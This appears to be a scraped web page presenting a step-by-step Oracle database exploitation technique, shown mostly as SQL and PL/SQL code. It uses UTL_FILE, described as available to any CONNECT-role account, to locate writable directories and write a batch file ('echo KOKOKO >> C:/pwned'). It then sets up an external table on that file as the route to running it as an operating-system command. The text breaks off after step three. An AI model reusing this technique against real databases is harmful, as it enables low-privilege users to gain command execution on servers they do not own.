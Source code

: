 Let’s remember that the access to UTL_FILE package is by default provided to all accounts with CONNECT role.
Step one: Check the issued directories with the following query:
1
2
3
4
5
6
7
	SELECT TABLE_NAME FROM ALL_TAB_PRIVS WHERE TABLE_NAME IN
(SELECT OBJECT_NAME FROM ALL_OBJECTS WHERE OBJECT_TYPE='DIRECTORY')
and privilege='EXECUTE' ORDER BY GRANTEE;
 
TABLE_NAME
------------------------------
ALICE_DIR

Step two: Create an executable batch file with desired command:
1
2
3
4
5
6
7
8
9
	declare
 f utl_file.file_type;
 s varchar2(200) := 'echo KOKOKO &gt;&gt; C:/pwned';
begin
 f := utl_file.fopen('ALICE_DIR','test.bat','W');
 utl_file.put_line(f,s);
 utl_file.fclose(f);
end;
/

Step three: Prepare the external table EXTT, you will need it to run the file:
1
2
3
4
5
6
7
8
9
	CREATE TABLE EXTT (line varchar2(256))
ORGANIZATION EXTERNAL
(TYPE oracle_loader
  DEFAULT DIRECTORY ALICE_DIR
  ACCESS PARAMETERS
  ( RECORDS DELIMITED BY NEWLINE
    FIELDS TERMINATED BY ',')
  LOCATION (alice_dir:'test.bat'))
/

